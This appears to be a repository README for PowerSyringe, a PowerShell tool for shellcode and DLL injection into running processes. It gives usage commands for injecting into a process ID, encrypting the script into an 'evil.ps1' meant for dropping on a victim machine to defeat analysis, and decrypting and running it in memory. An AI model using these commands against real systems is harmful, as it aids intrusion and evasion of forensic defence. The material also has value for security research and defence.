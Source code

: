 # PowerSyringe.ps1

Code was downloaded and imported here. All credit goes to Matthew Graeber. This project is licensed under a Creative Commons Attribution 3.0 Unported License.

http://www.exploit-monday.com/2011/11/powersyringe-powershell-based-codedll.html

----

Here is a rundown of its features:

* Shellcode injection from within Powershell
* Shellcode injection into any 32 or 64-bit process
* DLL injection into any 32 or 64-bit process
* Encryption - The script can encrypt itself and outputs the encrypted version to .\evil.ps1. This will make analysis of the script impossible/improbable without the correct password and salt (or if they happen to perform live memory forensics). >D
* Decryption - evil.ps1 will decrypt itself back into its original form if you provide the right password and salt
* Doesn't flag DEP b/c it doesn't execute in the stack
* Fairly detailed documentation

----

##Example  
Here is an excerpt of the documentation with usage examples:

**DLL Injection**
C:\PS>PowerSyringe 1 4274 .\evil.dll

**Description**
Inject 'evil.dll' into process ID 4274.

**Inject shellcode into process**
C:\PS>PowerSyringe 2 4274

**Description**
Inject the shellcode as defined in the script into process ID 4274

**Execute shellcode within the context of PowerShell**
C:\PS>PowerSyringe 3

**Description**
Execute the shellcode as defined in the script within the context of Powershell.

**Encrypt the script with the password:'password' and salt:'salty'**
C:\PS>PowerSyringe 4 .\PowerSyringe.ps1 password salty

**Description**
Encrypt the contents of this file with a password and salt. This will make analysis of the script impossible without the correct password and salt combination. This command will generate evil.ps1 that can dropped onto the victim machine. It only consists of a decryption function 'de' and the base64-encoded ciphertext.

*Note: This command can be used to encrypt any text-based file/script*

**Decrypt encrypted script and execute it in memory**
C:\PS>[String] $cmd = Get-Content .\evil.ps1
C:\PS>Invoke-Expression $cmd
C:\PS>$decrypted = de password salt
C:\PS>Invoke-Expression $decrypted

**Description**
After you run the encryption option and generate evil.ps1 these commands will decrypt and execute
(i.e. define the function) PowerSyringe entirely in memory assuming you provided the proper password and salt combination.

Upon successful completion of these commands, you can execute PowerSyringe as normal.

Note: "Invoke-Expression $decrypted" may generate an error. Just ignore it. PowerSyringe will
still work.
